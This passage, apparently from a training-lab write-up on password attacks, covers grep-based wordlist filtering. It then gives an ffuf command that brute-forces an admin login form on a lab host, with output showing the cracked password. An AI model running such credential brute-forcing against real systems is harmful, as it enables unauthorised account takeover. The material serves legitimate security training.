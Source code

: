 ```ad-important
    The pipeline processes filters sequentially. If a password fails any condition, it gets dropped early, improving efficiency.
    
2. **POSIX vs Simple Regex**:  
    `[[:upper:]]` is more reliable than `[A-Z]` because it handles non-English characters and locale settings.
    
3. **Length Check Issue**:  
    The command `.{10}` may allow passwords longer than 10 characters but doesn't explicitly enforce a **minimum** length for the entire password.
    
    - **Better Practice**: Replace with `grep -E '^.{10,}$'` to ensure the entire line (password) is ≥10 characters.
```

Now, we can use ffuf:

```
ffuf -w custom_wordlist.txt -u http://IP:PORT/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username" -ic -c -t 200
```

We get the following output:

```
ffuf -w custom_wordlist.txt -u http://94.237.55.96:36280/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.96:36280/index.php
 :: Wordlist         : FUZZ: /home/samsepiol/custom_wordlist.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid username
________________________________________________

Ramirez120992           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 306ms]
```
